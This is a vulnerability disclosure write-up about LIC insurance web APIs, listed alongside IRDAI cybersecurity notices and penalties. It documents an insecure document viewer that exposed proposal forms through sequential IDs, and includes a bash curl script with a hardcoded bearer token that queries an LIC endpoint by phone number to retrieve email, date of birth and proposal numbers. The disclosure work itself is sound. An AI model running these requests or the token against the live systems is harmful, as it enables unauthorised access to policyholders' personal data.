     <https://irdai.gov.in/document-detail?documentId=6678726>

- IRDAI's infosec issued a show cause notice to LIC on 18 February 2025.

    [RTIs with IRDAI](../../rti/posts/irdai.md)

- IRDAI issued a circular (after a gap of 18 months after the [last circular](https://irdai.gov.in/document-detail?documentId=6678726) and two years after the [2023 cybersecurity guidelines](https://irdai.gov.in/document-detail?documentId=3314780)) dated 24 March 2025 titled "Regarding Cyber Incident or Crisis Preparedness". IRDAI/GA&HR/CIR/MISC/49/03/2025

    <https://irdai.gov.in/document-detail?documentId=6975996>

- LIC issued a tender for cybersecurity training of its employees, dated 18 June 2025. CO-ERM-IT-CSD-2025-2026/IS Awareness.

    <https://licindia.in/tender-for-on-boarding-cyber-security-knowledge-partners-for-awareness-training-sessions-for-employees-agents-vendors-customers-and-other-stakeholders>

- IRDAI issued a penalty of ₹Three Crore Thirty-Nine Lakhs on M/S Star Health and Allied Insurance Co. Ltd. on 25 July 2025 "for various violations established under IRDAI Information & Cyber Security Guidelines, 2023".

    <https://irdai.gov.in/document-detail?documentId=7642959>

### 1. GenericDocumentViewer

This is it. One by one, all policy forms were accessible. A sample, redacted form is given at [sample proposal.pdf](content_lic/vuln1_sample_response.pdf)

Discovered and reported on 16th October 2024. ~~Fixed~~ covered up on 23th October 2024. The fix implemented was wholly incomplete as shown in the vulnerability 2 below. The underlying API still remained vulnerable to serial access.

```log
- https://esales.licindia.in/GenericDocumentViewer?DocId=24194_800210_MergedDocument.pdf
- https://esales.licindia.in/GenericDocumentViewer?DocId=24194_800211_MergedDocument.pdf
- https://esales.licindia.in/GenericDocumentViewer?DocId=24194_800212_MergedDocument.pdf
- https://esales.licindia.in/GenericDocumentViewer?DocId=24194_800213_MergedDocument.pdf
- https://esales.licindia.in/GenericDocumentViewer?DocId=24194_800214_MergedDocument.pdf
- https://esales.licindia.in/GenericDocumentViewer?DocId=24194_800215_MergedDocument.pdf
```

!!!note "Sample Response"
    [Open full proposal form](content_lic/vuln1_sample_response.pdf)

    ![Alt text](content_lic/vuln1_sample_response.pdf){ type=application/pdf }

### 2. GetPayLoadByQueryDynamic

Accepted phone number and provided email, DOB, proposal document number which can be used
in other APIs to get more data.

```bash title="sample_script.sh" linenums="1" hl_lines="7"
#!/bin/bash
for phone in "0000000000"
do
  timestamp=$(date '+%F_%T')
  curl -vvv -X POST 'https://digiapi.licindia.in/api/Report/GetPayLoadByQueryDynamic'\
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJVc2VySWQiOiI3M2M4MzJhNi03YzU1LTQzN2UtYjkyNy1hMzYwYTdhMDIxNzkiLCJFbWFpbCI6IkxJQ0RlbW9BZ2VudEBnbWFpbC5jb20iLCJPcmdJZCI6IjExMiIsIlBhcnRuZXJJZCI6IjAiLCJSb2xlIjoiTElDRGVtb0FnZW50IiwiTmFtZSI6IkxJQ0RlbW9BZ2VudCIsIlVzZXJOYW1lIjoiTElDRGVtb0FnZW50QGdtYWlsLmNvbSIsIlByb2R1Y3RUeXBlIjoiTWljYSIsIlNlcnZlclR5cGUiOiIxIiwiU2Vzc2lvbklkIjoiNjQyYjJhZDYtNjE3Yi00MjRkLThlOGItMWIzZTRjMWQwYWI2IiwiVGltZXpvbmVNaW4iOiIzMzAiLCJleHAiOjE4MjM4Njc0OTEsImlzcyI6IkludWJlIiwiYXVkIjoiSW51YmVNSUNBIn0.LvWId_MA3nHN9J-xw_ZDxfVHMPIa-sNbAQUn_w5LRxo'\
  -H 'appId: 642b2ad6-617b-424d-8e8b-1b3e4c1d0ab6'\
  -H 'TE: trailers' -d "{\"reportname\":\"TrackApplicationData\",\"paramList\":[{\"parameterName\":\"MobileNo\",\"parameterValue\":\"${phone}\"},{\"parameterName\":\"ChannelType\",\"parameterValue\":\"D2C\"}]}" \
  -o "getpayloadbyqueryd_${phone}_${timestamp}.json" ;
```